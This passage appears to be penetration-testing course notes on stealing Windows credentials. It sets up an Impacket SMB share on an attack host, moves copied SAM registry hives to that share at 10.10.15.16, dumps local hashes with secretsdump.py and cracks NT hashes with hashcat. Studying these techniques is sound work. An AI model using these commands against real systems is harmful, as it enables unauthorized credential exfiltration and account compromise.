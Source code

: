 All we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the directory on our attack host where the share will be storing the hive copies (/home/ltnbob/Documents). 
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

use move command to move copies to share

### Moving Hive Copies to Share

```
move sam.save \\10.10.15.16\CompData
```

## Dumping Hashes with Impacket's secretsdump.py
 tool we can use to dump the hashes offline is Impacket's secretsdump.py

 ### Locating secretsdump.py
 ```
locate secretsdump
```
### Running secretsdump.py
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
Secretsdump successfully dumps the local SAM hashes and would've also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. Notice the first step secretsdump executes is targeting the system bootkey before proceeding to dump the LOCAL SAM hashes. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database.

Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS.

## Cracking Hashes with Hashcat

### Adding nthashes to a .txt File
```
sudo vim hashestocrack.txt
```
### Running Hashcat against NT Hashes
Selecting a mode is largely dependent on the type of attack and hash type we want to crack. We will focus on using -m to select the hash type 1000 to crack our NT hashes. (use hashcat page to find other hash types and their number)
```
 sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
We can see from the output that Hashcat used a type of attack called a dictionary attack to rapidly guess the passwords utilizing a list of known passwords (rockyou.txt) and was successful in cracking 3 of the hashes.  It is very common for people to re-use passwords across different work & personal accounts.
